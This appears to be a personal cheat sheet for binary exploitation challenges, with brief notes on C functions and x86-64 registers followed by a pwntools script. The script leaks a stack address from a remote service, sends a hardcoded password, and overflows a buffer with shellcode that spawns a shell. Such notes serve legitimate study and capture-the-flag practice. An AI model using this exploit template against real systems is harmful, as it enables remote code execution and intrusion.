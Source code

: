 ### C Stuff
```
// time_t time(time_t *second) returns epoch in seconds
time_t tVar;
tVar = time((time_t *)0x0); // argument is NULL

void srand(unsigned int seed) // sets a seed for rand() to use
int rand(void)
```

### Assembly stuff
#### Registers
```
RBP: bottom of the current stack frame
RAX: 64bit version of EAX(32bit), and AX(16bit)
``` 

#### functions

```
LEA accepts a standard memory addressing operand, but does nothing more than store the calculated memory offset in the specified register, which may be any general purpose register.
```
```
MOV dest_reg source_reg
MOV eax, 0x0
```

### Pwntools

```python
from pwn import *

def main():
    context.log_level = 'DEBUG'
    context(os='linux', arch='amd64')

    # io = process('./binary_file')
    io = remote('x.x.x.x', 30774)
    password = 'w00tw00t'

    return_address_offset = 84
    max_payload_length = 137

    io.sendlineafter('> ', b'1')
    stack_address = io.recvline().strip().split()[-1]
    stack_address = ''.join([chr(int(stack_address[i:i+2], 16)) for i in range(2, len(stack_address), 2)])
    stack_address = stack_address.rjust(8, '\x00')
    stack_address = u64(stack_address, endian="big")
    log.success(f'Leaked stack address: {p64(stack_address)}')

    io.sendlineafter('> ', b'2')
    io.sendlineafter('password: ', password.encode())

    shellcode = asm(
            shellcraft.popad() +
            shellcraft.sh()
    )

    padding = b'a' * (return_address_offset - len(shellcode))
    payload = shellcode + padding + p64(stack_address)
    assert len(payload) <= max_payload_length, f'Payload too big. "{len(payload)}"'

    io.sendlineafter('commands: ', payload)
```